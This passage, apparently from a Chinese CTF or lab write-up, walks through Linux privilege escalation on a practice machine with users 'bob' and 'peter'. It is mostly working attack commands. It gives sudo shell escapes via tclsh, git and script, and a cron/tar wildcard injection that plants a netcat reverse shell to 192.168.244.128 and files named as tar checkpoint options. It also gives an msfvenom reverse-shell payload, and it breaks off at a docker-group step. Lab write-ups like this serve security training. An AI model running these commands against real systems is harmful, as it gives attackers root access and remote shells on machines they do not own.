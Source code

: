 ### tclsh(bob)

`tclsh`是Tcl（Tool Command Language）的解释器，用于执行 Tcl 脚本。Tcl是一种通用的脚本语言，它被设计用来编写各种类型的程序，包括系统管理脚本、图形界面程序、网络应用程序等。Tcl脚本可以在各种操作系统上运行，包括Linux、Unix、Windows等。

```bash
sudo tclsh
exec /bin/sh <@stdin >@stdout 2>@stderr
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151434.png" alt="image-20240224235705249" style="zoom:50%;" />

### git(bob)

```bash
sudo git -p help config
!/bin/sh
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151435.png" alt="image-20240224235931887" style="zoom:67%;" />

### script(bob)

```bash
sudo script -q /dev/null
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151436.png" alt="image-20240225000108698" style="zoom:50%;" />

### 定时任务提权(bob)

```bash
cat /etc/crontab
cat /etc/cron.daily/backup
echo "mkfifo /tmp/sfnirht; nc 192.168.244.128 1234 0</tmp/sfnirht | /bin/sh >/tmp/sfnirht 2>&1; rm /tmp/sfnirht" > shell.sh && chmod +x shell.sh
echo > "--checkpoint-action=exec=sh shell.sh"
echo > "--checkpoint=1"

# kali
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.244.128 lport=1234
# mkfifo /tmp/sfnirht; nc 192.168.244.128 1234 0</tmp/sfnirht | /bin/sh >/tmp/sfnirht 2>&1; rm /tmp/sfnirht
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151437.png" alt="image-20240225004916435" style="zoom:50%;" />

### docker提权(peter)

```bash
groups
peter docker
```

